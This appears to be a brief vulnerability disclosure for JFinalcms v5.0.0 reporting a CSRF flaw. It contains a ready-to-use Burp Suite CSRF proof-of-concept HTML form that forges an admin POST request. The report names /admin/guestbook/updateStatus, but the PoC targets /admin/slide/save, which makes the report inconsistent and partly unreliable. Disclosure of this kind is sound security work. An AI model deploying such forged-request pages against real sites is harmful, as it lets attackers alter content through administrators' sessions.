 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/guestbook/updateStatus

![image](https://github.com/li-yu320/cms/assets/54130055/387282d4-350b-4956-9d6a-02875be39ffc)

![image](https://github.com/li-yu320/cms/assets/54130055/6cfa367b-d160-4b68-b1a7-080be86cdcf2)


create poc:

![image](https://github.com/li-yu320/cms/assets/54130055/2fef7e42-9b40-402b-8848-abcd5758ddc5)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/slide/save" method="POST">
      <input type="hidden" name="gid" value="" />
      <input type="hidden" name="image" value="&#47;static&#47;upload&#47;e2742cf5&#45;ea48&#45;4747&#45;b4b5&#45;d5961e671634&#46;jpg" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="title" value="cs" />
      <input type="hidden" name="subtitle" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![image](https://github.com/li-yu320/cms/assets/54130055/1346d88f-f770-4c22-9dc6-8aeaa6ade79e)

